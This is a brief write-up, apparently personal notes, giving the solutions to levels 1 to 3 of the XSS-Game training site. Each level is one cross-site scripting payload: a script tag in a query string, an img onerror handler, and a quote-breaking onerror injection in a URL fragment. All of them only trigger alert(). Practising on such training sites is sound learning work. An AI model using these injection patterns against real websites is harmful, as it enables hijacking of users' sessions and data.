 # [XSS-Game]\[Web] Level 1~3

## Level1

`https://xss-game.appspot.com/level1/frame?query=<script>alert('xss')</script>`

## Level2

`<img src=# onerror=alert(1)>`

## Level3

`https://xss-game.appspot.com/level3/frame#11' onerror='alert("xss")`